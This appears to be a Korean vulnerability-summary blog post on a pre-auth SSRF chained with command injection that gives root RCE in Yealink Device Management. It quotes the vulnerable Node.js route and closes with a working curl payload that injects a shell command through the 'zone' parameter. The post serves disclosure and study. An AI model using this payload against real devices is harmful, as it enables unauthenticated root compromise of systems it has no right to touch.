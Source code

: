 ```yaml
---
title: "[하루한줄] Yealink DM Pre-Auth root level RCE"
author: idioth
tags: [idioth, cve, pre-auth, rce, yealink]
categories: [1day1line]
date: 2021-03-18 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL 

[SSD Advisory – Yealink DM Pre Auth ‘root’ level RCE](https://ssd-disclosure.com/ssd-advisory-yealink-dm-pre-auth-root-level-rce/)



## Target

- Yealink DM 3.6.0.20 버전 이하



## Explain

통합 개발 및 배포, 실시간 모니터링 및 경고, 원격 문제 해결 등의 솔루션을 가진 Yealink Device Management(이하 Yealink DM) platform에서 인증되지 않은 원격 사용자가 임의 명령을 수행할 수 있는 취약점이 발견되었습니다.

원격 코드 실행은 pre-auth SSRF 취약점과 Command Injection 취약점을 체이닝 하여 트리거 됩니다. SSRF 취약점이 존재하는 `/usr/local/yealink/dmweb/api/index.js` 코드 일부는 다음과 같습니다.

```javascript
     17 module.exports = app => {
     18     app.use('/premise', router);
     19 };
    [...]
    217 router.get('/front/getPingData', (req, res) => {
    218     // res.send({"ret":1,"data":"PING www.baidu.com (14.215.177.38): 56 data bytes\n64 bytes from 14.215.177.38: seq=0 ttl=54 time=15.084 ms\n64 bytes from 14.215.177.38: seq=1 ttl=54 time=15.888 ms\n64 bytes from 14.215.177.38: seq=2 ttl=54 time=15.742 ms\n64 bytes from 14.215.177.38: seq=3 ttl=54 time=15.622         ms\n64 bytes from 14.215.177.38: seq=4 ttl=54 time=16.384 ms\n\n--- www.baidu.com ping statistics ---\n5 packets transmitted, 5 packets received, 0% packet loss\nround-trip min/avg/max = 15.084/15.744/16.384 ms\n","error":null})
    219     // return;
    220     try {
    221         let url = req.query.url;
    222         // ��telnet�����pos���ping�trace����������端�����pos��以�并�pos传��
    223         let pos = req.query.pos;
    224         console.log(`url===${url}`);
    225         let headers = {
    226             'Content-Type': 'application/json',
    227             'User-Agent': req.headers['user-agent'],
    228             'x-forwarded-for': commom.getClientIP(req),
    229             token: req.session.token
    230         };
    231         request.get({
    232             url: url,
    233             headers: headers,
    234             timeout: 60000,
    235             qs: {
    236                 pos: pos
    237             }
    238         }).pipe(res);
    239     } catch (e) {
    240         console.error(e);
    241         res.send(
    242             errcode.MakeResult(
    243                 errcode.ERR,
    244                 e,
    245                 errcode.INTERNAL_ERROR,
    246                 'server.common.internal.error'
    247             )
    248         );
    249     }
    250 });
```

17번 줄에서 추가적인 API 사용을 위해 `/premise` route를 정의합니다. 그 후 217번 줄에서 `/premise/front/getPingData`를 GET 메소드의 route로 정의합니다. 232번 줄에서 특정 헤더를 사용하여 URL을 GET 메소드로 전송할 수 있습니다. 헤더는 225줄에서 정의되어 있으므로 해당 헤더 값으로 URL을 전송하면 해커가 제어하는 URL을 전송할 수 있습니다.



해당 취약점을 통해 `0.0.0.0:9600/tcp`에서 root로 실행되는 `smserver` 데몬에 요청을 보냅니다. `smserver`의 `mod_firewall.so` 모듈에는 Command injection을 할 수 있는 `fw_restful_service_get()` 함수가 존재합니다. 해당 함수는 `zone=`에 들어온 GET 변수를 사용하여 명령을 실행합니다.

따라서 SSRF를 통해 `smserver`에 payload를 작성하여 보내면 root 권한으로 Remote  Code Execution이 가능합니다.

```
curl --insecure "https://[target]/premise/front/getPingData?url=http://0.0.0.0:9600/sm/api/v1/firewall/zone/services?zone=;/usr/bin/id;"
```


